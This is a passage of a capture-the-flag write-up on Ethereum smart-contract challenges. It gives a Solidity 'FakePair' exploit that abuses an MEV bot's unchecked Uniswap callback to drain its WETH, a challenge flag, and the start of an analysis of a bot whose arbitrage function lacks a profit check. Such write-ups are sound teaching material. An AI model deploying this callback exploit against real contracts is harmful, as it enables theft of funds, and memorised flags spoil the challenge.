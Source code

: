 #### Exploitation

```js
contract FakePair {
    address public factory;

    function exploit(IUniswapV2Callee _bot, address _factory, IWETH weth) external {
        factory = _factory;
        address bot = address(_bot);
        bytes memory data = abi.encode(address(this), address(this), weth.balanceOf(bot), 0, true);
        _bot.uniswapV2Call(bot, 0, 0, data);
    }

    // let `pair1.swap()` call not revert
    function swap(uint, uint, address, bytes calldata) external {}
}
```

#### Flag

> flag{ch3ck_Y0ur_c4llb4ck!!8e0af8a0d1}

### The Dark Forest

- MEV bot 在模拟执行成功后才会发起链上套利交易

    ```py
    bot.functions.simulate(pair1_address, pair2_address, amount1, amount2, amount3, direction).call(
        {'nonce': nonce, 'from': acct.address, 'gas': 10 ** 6, 'gasPrice': 10 ** 11}
    )
    tx = bot.functions.arbitrage(pair1_address, pair2_address, amount1, amount2, amount3, direction).build_transaction(
        {'nonce': nonce, 'from': acct.address, 'gas': 10 ** 6, 'gasPrice': 10 ** 11}
    )
    ```

- `arbitrage()` 和 `simulate()` 所执行的操作完全一致，即先从 `pair2` 中换出 `WETH`，再在回调中使用一部分 `WETH` 换取中间代币以完成 `pair2.swap()`。但 `arbitrage()` 缺少保证交易获利的 `require` 语句

    ```js
    function arbitrage(IUniswapV2Pair pair1, IUniswapV2Pair pair2, uint amount1, uint amount2, uint amount3, bool dir) external {
        require(msg.sender == owner, "sender");
        pair2.swap(dir ? 0 : amount3, dir ? amount3 : 0, address(this), abi.encode(pair1, pair2, amount1, amount2, dir));
    }

    function simulate(IUniswapV2Pair pair1, IUniswapV2Pair pair2, uint amount1, uint amount2, uint amount3, bool dir) external {
        require(msg.sender == owner, "sender");
        uint balanceBefore = WETH.balanceOf(address(this));
        pair2.swap(dir ? 0 : amount3, dir ? amount3 : 0, address(this), abi.encode(pair1, pair2, amount1, amount2, dir));
        require(WETH.balanceOf(address(this)) > balanceBefore, "balance");
    }
    ```
